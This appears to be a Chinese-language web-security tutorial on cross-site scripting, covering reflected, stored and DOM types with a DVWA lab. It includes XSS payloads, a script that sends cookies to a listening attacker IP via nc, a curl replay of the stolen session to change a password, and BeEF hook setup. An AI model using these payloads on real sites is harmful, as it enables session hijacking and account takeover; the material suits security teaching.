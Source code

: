 # 跨站脚本攻击（Cross-site Scripting，XSS）

跨站脚本攻击（Cross-site scripting，XSS）是一种网站安全客户端漏洞，攻击者可以利用这种漏洞在网站上注入恶意的客户端代码。当受害者登陆网站时就会自动运行这些恶意代码，攻击者可以劫持用户会话、破坏网站、将用户重定向到恶意站点。

在OWASP Top 10 2017中，XSS攻击位于第7位。

![Cross-site scripting](../../../assets/img/cross-site-scripting.svg)

## 漏洞原理

XSS攻击分为3个类别，包括反射型（非持久型）、存储型（持久型）和DOM型。

### 反射型

反射型XSS是跨站脚本攻击中最简单的一种类型，攻击载荷包含在HTTP请求中。

攻击者一般通过发送电子邮件，诱使受害者访问包含恶意代码的URL。反射型XSS通常出现在搜索栏、用户登录等地方。反射型XSS漏洞往往被认定为低危漏洞，因为随着用户的安全意识提高，在实战过程中利用难度高。

### 存储型

存储型XSS，是指用户的恶意输入被存储下来，并在后期通过其他用户或管理员的页面进行展示。存储型XSS具有很高的隐蔽性，不需要受害者点击特定的URL，通常被认为高危风险。

攻击场景多见于论坛、博客文章的评论、用户昵称等等。

### DOM型

传统的 XSS 漏洞一般出现在服务器端代码中，而 DOM型XSS 是基于 DOM 文档对象模型的一种漏洞，所以，受客户端浏览器的脚本代码所影响。

```javascript
var search = document.getElementById('search').value;
var results = document.getElementById('results');
results.innerHTML = 'You searched for: ' + search;
```

## DVWA攻击场景示例

```
<script>alert(/xss/)</script>
<script>alert(document.cookie)</script>
<script>document.location = "http://google.com"</script>
```

### 实验一、利用XSS漏洞盗取并利用Cookie

第一步，在Kali Linux中，使用`nc`命令监听端口

```bash
nc -lvp 1234
```

第二步，在DVWA中，输入payload
```javascript
<script>new Image ().src="http://192.168.164.128:1234/"+document.cookie;</script>
```
第三步，在Kali Linux中，查看终端信息
```bash
connect to [127.0.0.1] from localhost [127.0.0.1] 38900
GET /security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75 HTTP/1.1
...
```
第四步，使用盗取的Cookie

方法一，使用`开发者工具`

`F12`打开开发者工具，选择`存储（storage）`标签页，左侧选择`Cookies`，对相应字段进行编辑，最后访问页面即可。

方法二，使用浏览器插件

推荐使用`Cookies Quick Manager`

方法三，使用`curl`命令

```bash
curl --cookie "/security=low;%20PHPSESSID=kavqn49seghn91lcbs6j411v75" --location "localhost/dvwa/vulnerabilities/csrf/?password_new=chicken&password_conf=chicken&Change=Change#" | grep "Password"
```

### 实验二、使用[BeEF](https://beefproject.com/)框架

新版本Kali Linux，已经移除Beef，需要手工安装

```bash
$ beef-xss                                                                                                   
Command 'beef-xss' not found, but can be installed with:
sudo apt install beef-xss
Do you want to install it? (N/y)y 输入y
....
$ sudo beef-xss
[-] You are using the Default credentials
[-] (Password must be different from "beef")
[-] Please type a new password for the beef user: 输入新密码
[i] GeoIP database is missing
[i] Run geoipupdate to download / update Maxmind GeoIP database
[*] Please wait for the BeEF service to start.
[*]
[*] You might need to refresh your browser once it opens.
[*]
[*]  Web UI: http://127.0.0.1:3000/ui/panel
[*]  Hook: <script src="http://<IP>:3000/hook.js"></script>
[*] Example: <script src="http://127.0.0.1:3000/hook.js"></script>
....
```

参考

https://www.freebuf.com/sectool/178512.html

## 参考资料

- [OWASP,Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger，Cross-site scripting](https://portswigger.net/web-security/cross-site-scripting)
- [MDN Web Docs，跨站脚本攻击](https://developer.mozilla.org/zh-CN/docs/Glossary/Cross-site_scripting)

